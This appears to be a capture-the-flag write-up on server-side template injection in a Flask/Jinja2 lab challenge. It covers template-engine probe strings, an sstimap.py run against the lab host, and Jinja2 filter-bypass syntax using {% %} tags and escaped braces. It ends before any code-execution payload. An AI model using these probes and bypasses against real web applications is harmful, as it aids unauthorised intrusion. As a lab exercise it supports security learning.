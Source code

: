 ## Server-Side Template Injection (SSTI)
### Identify the template engine
```css
Hello {{ name }}!
```
Hacking detected
```css
${{<%[%'"}}%\.
```
Hacking detected
```css
${7*7}
````
Strength : 436
From the source code `render_template_string` is used for `Jinja2` Template engine by flask.
### Use sstimap.py
```bash
sstimap.py -u http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com -m POST -d 'name=123' -p 127.0.0.1:8080

[-] Tested parameters appear to be not injectable.
```
*Note: it failed due to the regex restrictions*
## Bypass Regex restrictions
### Bypass `{{}}` restrictions

#### `{% %}` Bypass

```css
{% set a = 7*7 %} -> Strength : 1124
{% print(7*7) %} -> Strength : 1176
```

#### `\{\{  \}\}` Bypass restrictions

```css
\{\{7*7\}\}
```
Strength : 1016

Validating the calculateions 
```python
>>> def ascii_sum(s): return sum(ord(c) for c in s)
... 
>>> print(ascii_sum("${7*7}"))
436
>>> print(ascii_sum("{% set a = 7*7 %}"))
1124
>>> print(ascii_sum("{% print(7*7) %}"))
1176
>>> print(ascii_sum("\{\{7*7\}\}"))
1016
>>> exit()
```
